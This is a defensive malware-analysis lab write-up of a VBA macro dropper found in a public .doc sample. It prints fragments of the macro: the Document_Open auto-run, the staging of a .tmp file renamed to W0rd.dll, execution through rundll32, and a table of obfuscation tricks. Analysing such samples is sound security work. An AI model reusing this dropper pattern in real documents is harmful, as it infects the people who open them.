


# Maldoc Static Analysis — VBA Macro Dropper

## Overview

This lab documents the static analysis of a suspicious `.doc` file obtained from MalwareBaazar. The sample was flagged for review based on its origin and file type, then examined using `oledump.py` and `olevba` on a REMnux analysis VM.

**Sample:** `8bcf45c2de07f322b8efb959e3cef38fb9983fdb8b932c527321fd3db5e444c8.doc`

**Environment:** REMnux (isolated, non-networked analysis VM)

**Tools used:** `oledump.py`, `olevba` (oletools 0.60.2)

## 1. Why This File Was Treated as Suspicious

The `.doc` file was sourced from a public malware sample repository - MalwareBaazar. Legacy `.doc` (OLE Compound File) format is a common vehicle for embedding VBA macros, and any macro-enabled document from an untrusted source is treated as a potential first-stage payload — the initial foothold in a larger intrusion chain (dropper → payload → persistence/C2).

## 2. Structural Overview (`oledump.py`)

Running `oledump.py` against the sample enumerates every OLE stream inside the compound file:



Streams **8–12** are flagged `M` (macro), confirming five VBA modules are embedded:

| Stream | Module |
|---|---|
| 8 | `Macros/VBA/Module1` |
| 9 | `Macros/VBA/Module10` |
| 10 | `Macros/VBA/Module11` |
| 11 | `Macros/VBA/Module12` |
| 12 | `Macros/VBA/ThisDocument` |

Stream 16 (`ObjectPool/.../Ole10Native`, flagged `O`) is also notable — at ~570 KB it is disproportionately large for a native OLE object embedded in a document of this kind, and warrants separate extraction and inspection as a possible embedded binary/payload (out of scope for this static VBA pass).

## 3. Auto-Execution and Suspicious Keyword Summary (`olevba`)

`olevba`'s keyword analysis flags the following:



The combination of `Document_Open` + `Shell32`/`ShellExecute` + a disguised `.dll` filename is a strong indicator of an auto-running dropper.

## 4. Execution Flow

### 4.1 Entry point — `ThisDocument.cls`

```
Private Sub Document_Open()
    Call steptwo
End Sub
```

`Document_Open()` fires automatically the moment the document is opened — no user interaction beyond opening the file is required. It immediately hands off to `steptwo`.

`steptwo` first checks an infection marker:

```
hugs = chek()
If hugs = 1 Then
    ' already infected — do nothing
Else
    ' proceed with drop + execute
End If
```

`chek()` (defined in Module1) checks whether `W0rd.dll` already exists in the template's directory:

```
If Dir(vzxx & "\W0rd.dll") = "" Then
    chek = 0        ' not yet infected
Else
    chek = 1         ' already infected
End If
```

This is a standard **reinfection guard** — it prevents the macro from re-dropping and re-executing the payload on subsequent opens of the same document on an already-compromised host.

If `hugs = 0` (not yet infected), the macro proceeds to:

1. Call `ssss()` (Module11) to locate the payload.
2. Reconstruct the target command string piece by piece:
   - `pushstr = "\W0rd.dll"` (built from split fragments, e.g. `"\W" & "0rd.d"`)
   - `fa = "rundll32.exe"` (built from fragments: `"3" & "e" ` etc. combining to `"32.exe"`, prefixed with `"r" & "u" & "nd" & "ll"`)
   - `yy = repid() & pushstr & ",DllUnregisterServer"`
3. Execute:
   ```
   Call regsrva.ShellExecute(fa, yy, " ", SW_SHOWNORMAL)
   ```
   which resolves to the equivalent of:
   ```
   rundll32.exe "<AttachedTemplate.Path>\W0rd.dll",DllUnregisterServer
   ```

`repid()` and `glops` both resolve to `ActiveDocument.AttachedTemplate.Path` — the folder containing the document's attached template, used as the working directory for the dropped payload.

### 4.2 Payload staging — `Module11.bas`, `Module10.bas`, `Module1.bas`

**`ssss()` (Module11)** derives the Windows `Temp` directory without hardcoding it. It takes `AttachedTemplate.Path`, strips it down character by character (`Left(path, ntgs)`) until it isolates the drive root, then appends the split string `"Loc" & "al\Te" & "mp"` to rebuild:
```
<Drive>:\...\Local\Temp
```
It then calls `Getme()` on that path.

**`Getme()` (Module1)** performs a **recursive directory walk** starting at the Temp folder, using `Scripting.FileSystemObject` to enumerate subfolders. For each subfolder it calls `checkthe()`.

**`checkthe()` (Module10)** is the actual drop step:
```
strFileExists = Dir(pifpaf & "\0fiasS.tmp")
...
If Dir(nothings & "\W0rd.dll") = "" Then
    Name sf & "\0fiasS.tmp" As ActiveDocument.AttachedTemplate.Path & "\W0rd.dll"
```
`Name ... As ...` is VBA's file rename/move statement. This looks for a file named **`0fiasS.tmp`** somewhere under `Temp` (planted alongside the document, disguised with a `.tmp` extension to avoid looking like an executable) and renames/moves it to `W0rd.dll` in the template directory — **staging the payload without downloading anything from the network.** This makes the sample a dropper rather than a downloader: the payload is bundled with the delivery document itself.

**`Module12.bas` (`hi`)** contains a near-identical, simpler version of the same rename logic and appears to be a redundant/earlier implementation of the same staging step.

### 4.3 Anti-analysis / display manipulation — `Module10.bas`

```
Sub gotodown()
    Call gototwo
    Selection.TypeBackspace
    Selection.Copy
End Sub

Sub gototwo()
    Selection.MoveDown Unit:=wdLine, Count:=1
    Selection.MoveRight Unit:=wdCharacter, Count:=5
    ...
End Sub
```

These routines move the cursor through the visible document body in a fixed pattern and then delete (`TypeBackspace`) and copy the selection. This is consistent with the macro cleaning up a decoy/lure marker in the document body after execution — removing visual evidence of the macro's staging logic from what the victim sees, rather than affecting the payload mechanism itself.

## 5. Obfuscation Techniques Observed

| Technique | Purpose |
|---|---|
| String concatenation of small fragments (e.g. `"nd" & "e"`, `"3" & "e" & pus`) | Defeats plaintext/keyword and simple YARA string matching |
| Meaningless variable names (`hugs`, `glops`, `pafh`, `vzxx`) | Slows manual review, adds no functional value |
| Payload staged as `.tmp` rather than `.dll` | Avoids static AV scanning of a PE/DLL file extension prior to execution |
| Dynamic path resolution via `AttachedTemplate.Path` rather than hardcoded paths | Portable across victim machines; avoids obviously suspicious hardcoded strings |
| Execution via `rundll32.exe` calling `DllUnregisterServer` | Living-off-the-land binary (LOLBin) abuse — payload executes under a trusted, signed Windows process rather than as a standalone unsigned EXE |
| Reinfection check (`chek()`) | Avoids redundant execution / unnecessary noise on already-compromised hosts |
| Cursor-based text deletion in document body | Removes visual artifacts from the lure document post-execution |

## 6. Summary

On open, this document silently executes a VBA macro chain that:

1. Checks whether the host is already infected (`W0rd.dll` present).
2. If not, recursively searches the user's `Temp` directory for a bundled staging file (`0fiasS.tmp`).
3. Renames/moves that file to `W0rd.dll` in the document's template directory.
4. Executes it via `rundll32.exe <path>\W0rd.dll,DllUnregisterServer` — a LOLBin technique that runs the payload under a legitimate Windows binary.
5. Cleans up visible traces in the document body.

This is a classic **maldoc dropper**: it does not fetch a payload from the network (no downloader behavior observed in the macro code itself), but stages a bundled DLL disguised as a `.tmp` file and hands off execution via `rundll32`.

## 7. Scope and Limitations

This writeup covers **static VBA macro analysis only**. It does **not** include:

- Static or dynamic analysis of the actual `W0rd.dll` payload (PE headers, imports, strings, PEStudio/FLOSS output).
- Network behavior / C2 analysis (e.g. via INetSim + Wireshark in an isolated sandbox).
- Extraction and inspection of the large `Ole10Native` object pool stream noted in Section 2.
- Malware family attribution — the dropper pattern (macro → `.tmp` rename → `rundll32` execution) is consistent with families that use this LOLBin technique, but attribution without payload analysis would be speculative and is not claimed here.

**Planned follow-up:** extract and statically analyze the staged DLL, then execute it in an isolated REMnux/FlareVM sandbox with INetSim to observe network and host behavior.

## Disclaimer

This analysis was performed in an isolated, non-networked virtual machine for educational purposes. No live systems were infected. The sample hash is provided above for reference; the binary itself is not included in this repository.
